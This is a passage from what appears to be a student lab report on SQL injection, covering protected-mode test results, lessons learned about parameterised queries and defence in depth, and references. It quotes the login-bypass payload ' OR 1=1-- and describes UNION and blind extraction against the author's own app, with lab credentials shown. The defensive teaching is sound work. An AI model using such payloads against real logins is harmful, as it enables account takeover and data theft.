

***Figure 11 : The login bypass (Figure 3), re-run in protected mode.*** *The
payload `' OR 1=1-- ` is now just a username to look up (`$1`), so no account
matches and the login is correctly refused: "Invalid username or password."*



***Figure 12 : Protection does not break normal use.*** *A real staff login
(`yeshi` / `summer2023`) still succeeds in protected mode. The values are passed
as parameters (`$1`, `$2`), the account is found, and the user is signed in the
defence blocks attacks without getting in the way of genuine users.*



***Figure 13 : The automated extractor run against the protected app.*** *Its
first probes fail, so it stops and reports that injection no longer works: the
quote is bound as data, not SQL. The fix is doing its job.*

---

## 15. Results

- **Vulnerable version:** all five kinds of attack worked. The admin password
  `Dr#k_R00t_2024!` was obtained three separate ways: directly via the UNION
  dump, and indirectly via the boolean and time-based oracles: the boolean
  oracle returned true/false responses, and the time-based oracle used delays to
  infer information. The login was
  bypassed with no password at all.
- **Protected version:** every attack was blocked. Injected quotes became
  ordinary characters, so attacks turned into harmless literal searches or
  refused logins, while normal logins and searches behaved exactly as before.
- **Headline number:** the automatic extractor recovered a 15-character password
  in **111 requests** against the vulnerable version, and **0 characters** against
  the protected version.

---

## 16. Security Lessons Learned

1. **Parameterised queries are the main defence.** Keeping code and data apart at
   the query level removes the whole problem, not just the payloads you thought of.
2. **Never build SQL by gluing text together,** and don't rely on escaping quotes
   by hand: it is fragile and often bypassed.
3. **Use more than one layer (defence in depth).** Even with injection present,
   other mistakes made it worse and should be fixed independently:
   - **Hash passwords** (bcrypt/argon2) so a leaked table is useless.
   - **Give the database user least privilege** so a read-only app can't delete data.
   - **Don't show raw error messages** to users; log them and show a generic note.
   - **Validate input** (type, length, allow-lists) as an extra layer — never the only one.
4. **Blind injection is still total loss.** Hiding data from the page does not
   protect it; a yes/no or timing clue is enough to read everything.
5. **Different vulnerabilities need different fixes.** Fixing SQLi does not fix XSS.

---

## 18. Conclusion

SQL injection comes down to one mistake: letting the user's text become part of
the query's **instructions**: and one correct fix: **parameterised queries**,
which keep the user's text as **data**. In this assignment I built one small app,
showed five different kinds of SQL injection against it (including a script that
read the admin password straight out of the database without ever displaying it),
and then stopped every one of those attacks by changing only *how the queries are
built*. Same app, opposite outcomes: SQL injection is not an unavoidable risk of
database-driven websites, but a preventable result of how the SQL is written.

---

## 19. References

1. MITRE. *CWE-89: SQL Injection.* https://cwe.mitre.org/data/definitions/89.html
2. OWASP. *SQL Injection* and *SQL Injection Prevention Cheat Sheet.*
   https://owasp.org/www-community/attacks/SQL_Injection
3. OWASP. *Blind SQL Injection.*
   https://owasp.org/www-community/attacks/Blind_SQL_Injection
4. PortSwigger Web Security Academy. *SQL injection.*
   https://portswigger.net/web-security/sql-injection
5. SQLite. *Query Language.* https://www.sqlite.org/lang.html
6. OWASP. *Password Storage Cheat Sheet.*
   https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html

---
